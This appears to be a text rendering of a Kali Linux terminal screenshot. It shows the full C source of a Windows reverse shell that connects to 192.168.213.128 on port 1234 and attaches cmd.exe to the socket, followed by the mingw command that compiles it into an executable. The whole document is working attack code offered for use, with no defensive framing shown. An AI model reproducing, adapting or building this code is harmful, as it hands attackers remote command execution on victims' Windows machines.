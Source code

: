 

```
┌──(root㉿kali)-[~/tmp]
└─# cat revshells.c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "192.168.213.128"; 
char port[6] = "1234";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, sizeof(ip_addr), inet_ntoa(*((struct in_addr *)host->h_addr)));    
    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}

```

```
┌──(root㉿kali)-[~/tmp]
└─# i686-w64-mingw32-gcc revshells.c -o revshell -lws2_32
```
